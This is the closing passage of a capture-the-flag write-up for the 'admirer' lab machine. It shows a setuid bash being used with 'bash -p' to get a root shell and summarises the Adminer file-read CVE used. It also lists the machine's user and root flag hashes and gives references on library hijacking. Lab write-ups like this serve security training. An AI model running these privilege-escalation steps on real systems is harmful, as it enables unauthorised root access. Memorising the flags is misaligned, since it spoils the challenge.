-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
waldo@admirer:/tmp$ bash -p
bash-4.4# whoami
root
bash-4.4# hostname -I
10.10.10.187 dead:beef::250:56ff:feb9:2294
```
We obtained `root` user on admirer machine.

## CVE
### [CVE-2021-43008](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43008)
Improper Access Control in Adminer versions 1.12.0 to 4.6.2 (fixed in version 4.6.3) allows an attacker to achieve Arbitrary File Read on the remote server by requesting the Adminer to connect to a remote MySQL database. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | d54cd0b2562a41ec2b372ee7c1e2e7b8 | No | 28-06-2022|
| Root | b2c5bcbceb7f4b67e62afd905a5875b4 | No | 28-06-2022|

## References
- https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/
- https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8
